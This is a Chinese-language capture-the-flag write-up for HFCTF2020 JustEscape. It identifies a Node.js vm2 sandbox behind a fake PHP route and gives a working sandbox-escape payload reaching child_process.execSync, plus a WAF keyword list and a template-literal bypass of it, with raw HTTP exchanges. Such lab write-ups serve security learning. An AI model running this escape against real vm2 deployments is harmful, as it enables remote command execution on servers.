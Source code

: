 # [HFCTF2020]JustEscape

#PHP代码审计 #vm沙箱逃逸 #waf

进入网页，发现一些小Demo：

```
数学运算
code: (2+6-7)/3

run online: /run.php?code=(2%2b6-7)/3;

Ouput: 0.3333333333333333

注意编码 =.=
```

提示有/run.php，访问/run.php：

```php
<?php
if( array_key_exists( "code", $_GET ) && $_GET[ 'code' ] != NULL ) {
    $code = $_GET['code'];
    echo eval(code);
} else {
    highlight_file(__FILE__);
}
?>
```

尝试输入：

```
/run.php?code=2+2;
```

拦截请求并发送：

```
GET /run.php?code=2+2; HTTP/1.1
Host: 7ab9c4f8-545f-4aa1-9606-4d1abbc5a8b1.node4.buuoj.cn:81

```

响应为：

```
HTTP/1.1 200 OK
Server: openresty
Date: Mon, 15 Nov 2021 17:20:28 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 30
Connection: keep-alive
Etag: W/"1e-1+0L6+REwXcrCHBew/23ACAwURE"
X-Powered-By: Express

SyntaxError: Unexpected number
```

说明加号需要 url 编码才能进行正常的运算。

在Demo里，还有一个提示：

> 真的是 PHP 嘛

可能不是一个PHP站，所以题目中run.php可能是一个故意设置的路由，联想到eval()函数不仅仅是php含有的，javascript 也有这个函数，js测试的话可以用 Error().stack 直接查看报错信息。

输入url：

```
/run.php?code=Error().stack;
```

拦截并发送请求：

```
GET /run.php?code=Error().stack HTTP/1.1
Host: 7ab9c4f8-545f-4aa1-9606-4d1abbc5a8b1.node4.buuoj.cn:81

```

响应为：

```
HTTP/1.1 200 OK
Server: openresty
Date: Mon, 15 Nov 2021 17:26:09 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 624
Connection: keep-alive
Etag: W/"270-DDBqL2yCV4YxyUHSAtKO4Drqlt4"
X-Powered-By: Express

Error
    at vm.js:1:1
    at Script.runInContext (vm.js:131:20)
    at VM.run (/app/node_modules/vm2/lib/main.js:219:62)
    at /app/server.js:51:33
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/app/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/app/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at /app/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/app/node_modules/express/lib/router/index.js:335:12)
```

根据这些报错，应该可以确认是vm沙箱逃逸。

```jsx
"use strict";
const {VM} = require('vm2');
const untrusted = '(' + function(){
    TypeError.prototype.get_process = f=>f.constructor("return process")();
    try{
        Object.preventExtensions(Buffer.from("")).a = 1;
    }catch(e){
        return e.get_process(()=>{}).mainModule.require("child_process").execSync("whoami").toString();
    }
}+')()';
try{
    console.log(new VM().run(untrusted));
}catch(x){
    console.log(x);
}
```

探测 waf 发现程序过滤了以下关键字：

```bash
['for', 'while', 'process', 'exec', 'eval', 'constructor', 'prototype', 'Function', '+', '"',''']
```

js拼接字符串绕过waf改写payload显示网页根目录：

```jsx
/run.php?code=(function (){
TypeError[`${`${`prototyp`}e`}`][`${`${`get_pro`}cess`}`] = f=>f[`${`${`constructo`}r`}`](`${`${`return proc`}ess`}`)();
try{
    Object.preventExtensions(Buffer.from(``)).a = 1;
}catch(e){
    return e[`${`${`get_pro`}cess`}`](()=>{}).mainModule[`${`${`requir`}e`}`](`${`${`child_proces`}s`}`)[`${`${`exe`}cSync`}`](`ls /`).toString();
}
})()
```

直接复制到地址栏，空格自动转化为url编码，网页回显：

```bash
app bin boot dev etc flag home lib lib64 media mnt opt proc root run sbin srv start.sh sys tmp usr var
```

修改payload输出flag：

```bash
/run.php?code=(function (){
    TypeError[`${`${`prototyp`}e`}`][`${`${`get_pro`}cess`}`] = f=>f[`${`${`constructo`}r`}`](`${`${`return proc`}ess`}`)();
    try{
        Object.preventExtensions(Buffer.from(``)).a = 1;
    }catch(e){
        return e[`${`${`get_pro`}cess`}`](()=>{}).mainModule[`${`${`requir`}e`}`](`${`${`child_proces`}s`}`)[`${`${`exe`}cSync`}`](`cat /flag`).toString();
    }
})()
```

得到flag。

References

[inanb](https://inanb.github.io/2021/08/22/HFCTF2020-JustEscape/)

[[BJDCTF2020]EasySearch HCTF-2018-Web-warmup](https://tothemoon2019.github.io/2020/10/21/%E7%AC%AC%20%E4%BA%94%20%E5%91%A8%20write%20up%20%5B%5BHFCTF2020%5DJustEscape%20%5BBJDCTF2020%5DEasySearch%20HCTF-2018-Web-warmup%5D/)

[HFCTF2020 JustEscape](https://blog.z3ratu1.cn/%5BHFCTF2020%5DJustEscape.html)

Node.js 的常见漏洞：

[https://xz.aliyun.com/t/7184](https://xz.aliyun.com/t/7184)

POC：

[Breakout in v3.8.3 · Issue #225 · patriksimek/vm2](https://github.com/patriksimek/vm2/issues/225)